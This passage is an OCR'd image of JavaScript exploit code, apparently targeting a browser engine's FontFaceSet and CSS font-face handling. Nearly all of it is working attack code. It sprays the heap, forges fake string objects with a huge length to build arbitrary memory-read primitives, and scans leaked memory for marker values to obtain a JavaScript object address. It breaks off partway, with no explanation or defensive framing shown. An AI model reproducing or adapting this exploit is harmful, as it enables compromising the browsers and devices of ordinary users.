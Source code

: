                 var leak = stringToPtr(badstr2.substr(badstr2.length - 8));
                if (leak < 0x1000000000000)
                    break;
            }    
            function makeReader(read_addr, ffs_name) {
                var fake_s = '';
                fake_s += '0000'; //padding for 8-byte alignment
                fake_s += '\u00ff\u0000\u0000\u0000\u00ff\u00ff\u00ff\u00ff'; //refcount=255, length=0xffffffff
                fake_s += ptrToString(read_addr); //where to read from
                fake_s += ptrToString(0x80000014); //some fake non-zero hash, atom, 8-bit
                p_s = '';
                p_s += ptrToString(29);
                p_s += ptrToString(guessed_addr);
                p_s += ptrToString(guessed_addr + SIZEOF_CSS_FONT_FACE);
                p_s += ptrToString(guessed_addr + 2 * SIZEOF_CSS_FONT_FACE);
                for (var i = 0; i < 18; i++)
                    p_s += ptrToString(INVALID_POINTER);
                for (var i = 0; i < 256; i++)
                    mkString(HASHMAP_BUCKET, p_s);
                var the_ffs = ffses[ffs_name] = new FontFaceSet([bad_fonts[guessed_font], bad_fonts[guessed_font + 1], bad_fonts[guessed_font + 2], good_font]);
                mkString(HASHMAP_BUCKET, p_s);
                var relative_read = mkString(HASHMAP_BUCKET, fake_s);
                bad_fonts[guessed_font].family = ffs_name + "_evil1";
                bad_fonts[guessed_font + 1].family = ffs_name + "_evil2";
                bad_fonts[guessed_font + 2].family = ffs_name + "_evil3";
                needfix.push(relative_read);
                if (relative_read.length < 1000) //failed
                    return makeReader(read_addr, ffs_name + '_');
                return relative_read;
            }    
            var fastmalloc = makeReader(leak, 'ffs3'); //read from leaked string ptr    
            for (var i = 0; i < 100000; i++)
                mkString(128, '');    
            var props = [];
            for (var i = 0; i < 0x10000; i++) {
                props.push({
                    value: 0x41434442
                });
                props.push({
                    value: jsvalue
                });
            }    
            var jsvalue_leak = null;    
            while (jsvalue_leak === null) {
                Object.defineProperties({}, props);
                for (var i = 0;; i++) {
                    if (fastmalloc.charCodeAt(i) == 0x42 &&
                        fastmalloc.charCodeAt(i + 1) == 0x44 &&
                        fastmalloc.charCodeAt(i + 2) == 0x43 &&
                        fastmalloc.charCodeAt(i + 3) == 0x41 &&
                        fastmalloc.charCodeAt(i + 4) == 0 &&
                        fastmalloc.charCodeAt(i + 5) == 0 &&
                        fastmalloc.charCodeAt(i + 6) == 254 &&
                        fastmalloc.charCodeAt(i + 7) == 255 &&
                        fastmalloc.charCodeAt(i + 24) == 14
                    ) {
                        jsvalue_leak = stringToPtr(fastmalloc, i + 32);
                        break;
                    }
                }
            }    
            var rd_leak = makeReader(jsvalue_leak, 'ffs4');
            var array256 = stringToPtr(rd_leak, 16); //arrays[256]